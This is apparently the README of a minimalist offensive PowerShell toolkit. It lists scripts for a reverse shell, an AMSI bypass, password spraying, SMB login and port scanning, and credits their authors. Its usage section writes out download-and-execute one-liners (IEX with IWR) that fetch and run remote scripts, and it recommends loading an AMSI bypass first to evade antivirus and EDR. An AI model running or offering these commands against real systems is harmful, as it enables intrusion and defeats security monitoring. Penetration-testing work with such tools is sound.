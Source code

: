 # smallposh
This repo is a collection of minimalist yet effective powershell offensive securities scripts. The goal is to have a very tiny toolkit, enabling a per need basis to allow minimal footprinting (although it is far from perfect and relying only on an AMSI-Bypass will get you caught by EDR once you start doing shady things such as port opening)

All these scripts are made available for educational purposes only. Using them without system owners'consent is illegal and will give you a free jail trip.
They are all provided without warranty and they may or may not break things. You are responsible of the scripts you run.

# usage
All the scripts can be used locally but since we're using powershell and we're trying to be sneaky it is probably better to load them from a webserver using the classic IEX(IWR('https://github.com/RaouzRouik/smallposh/thescriptyouwant.ps1')) or on your very own webserver if you prefer

You should definitely start by invoking 

IEX(IWR('https://github.com/RaouzRouik/smallposh/amsibp-dec-2021-fud.ps1'))

or else AV/EDR will surely block you right away


# credits

All credits go to their respective owners:
revshell.ps1:  @TihanyiNorbert based on Nishang Framework
https://github.com/tihanyin/PSSW100AVB

amsibp-dec-2021-fud.ps1: @TihanyiNorbert based on Matt Graeber @mattifestation script
https://github.com/tihanyin/PSSW100AVB

ADspray.ps1, bannergrabber.ps1, smblogin.ps1, portscan-tcp.ps1, portscan-udp.ps1: InfosecMatter 
https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

httpfileserv.ps1: 0v3rride
https://github.com/0v3rride/Simple-PowerShell-HTTP-File-Server

PortFWD.ps1: deepzec
https://github.com/deepzec/Win-PortFwd



